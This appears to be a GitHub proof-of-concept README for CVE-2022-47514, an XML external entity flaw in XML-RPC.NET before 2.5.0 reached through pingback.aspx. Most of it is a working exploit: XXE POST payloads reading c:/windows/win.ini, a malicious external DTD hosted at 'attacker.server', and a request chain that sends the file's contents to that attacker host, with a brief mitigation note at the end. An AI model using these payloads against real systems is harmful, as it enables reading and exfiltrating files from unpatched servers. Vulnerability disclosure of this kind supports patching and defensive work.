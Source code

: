 # [CVE-2022-47514] proXXE Proof of Concept 
**CVE (+Exploit) Author:** Farzan Karimi

**CVE Summary:**  An XML external entity (XXE) injection vulnerability in http://XML-RPC.NET before 2.5.0 allows remote authenticated users to conduct server-side request forgery (SSRF) attacks, as demonstrated by a pingback.aspx POST request. While the POST response initially appears to be a limited XXE file enumeration vulnerability, it can be elevated to full file exfiltration using an external DTD, hosted by a proxy server. Hence the name, proXXE. :)

**CVE Details:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-47514

# PoC for CookComputing XML-RPC.NET XXE <2.5.0 [proXXE]
1. Identify a vulnerable pingback.aspx endpoint. Identifying pingback endpoints with "CookComputing" <2.5 version footers tend to be strong signals.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)

# 12/29 Update: File Exfiltration

*Summary:* Some XXEs don't directly return file contents in HTTP server responses. These cases don't actually demonstrate the true impact of exploitation, or the ability to exfiltrate file data. The following steps demonstrate how an attacker can still achieve file exfiltration via XXE on XML-RPC.NET by hosting a malicious DTD on a system they control, and then invoke the external DTD from within the in-band XXE payload. 

5. Host a malicious DTD on a file server the attacker controls. The system should host a malicious XML, containing:

```
<!ENTITY % meta "<!ENTITY serverfile SYSTEM 'https://attacker.server/public/evil.xml?r=%winfile;'>">  
%meta; 

```

When this XML document is parsed, the token &winfile; will be replaced with the contents of the win.ini file of the system where the parsing took place. The entity “winfile” in this XML document is an example of an external entity since it’s read from a separate resource. In cases where user-controlled XML is parsed on a server and the XML is then reflected to the user, this can allow malicious users to see the contents of privileged files on the server itself.

6. Craft the POST payload to post the entity as a variable to your server, as so:

```
<?xml version="1.0"?> 

<!DOCTYPE doc PUBLIC "blah" "https://attacker.server/public/evil.xml" [ 
  <!ENTITY % winfile SYSTEM "file://c:/windows/win.ini"> 
]> 

<doc> 
  &serverfile; 
</doc> 
```

Burp request:
![xxe-exfil-payload](https://user-images.githubusercontent.com/3679232/210012497-d0ed37f8-3e95-4231-971d-03a83629c1f8.png)


7. Because the parameter entity token is being used in a normal literal which then composes a system literal, it is parsed and expanded. This makes a request to a URL like:

```
http://www.attacker.server/?r=;%20for%2016-bit%20app%20support%0D%0A%5Bfonts%5D%0D%0A%5Bextensions%5D%0D%0A%5Bmci%20extensions%5D%0D%0A%5Bfiles%5D%0D%0A%5BMail%5D%0D%0AMAPI=1%0D%0A%5BMCI%20Extensions.BAK%5D%0D%0Am2v=MPEGVideo%0D%0Amod=MPEGVideo
```

And the targetted file (e.g. win.ini) is exfiltrated and written to the attacker's web log:

![xxe-data-exfil](https://user-images.githubusercontent.com/3679232/210012160-eab20862-cd15-4c6a-aa29-41001ec17519.png)

Note: if using Azure to host your evil XML (external DTD), it may take time for the file to appear in the Azure web logs. Based on experience, replaying the request multiple times may trigger Azure garbage collection to update the logs sooner.

# Mitigation
Installations using a version prior to version 2.5.0 should update to version 2.5.0. This mitigation disables XML entity expansion.
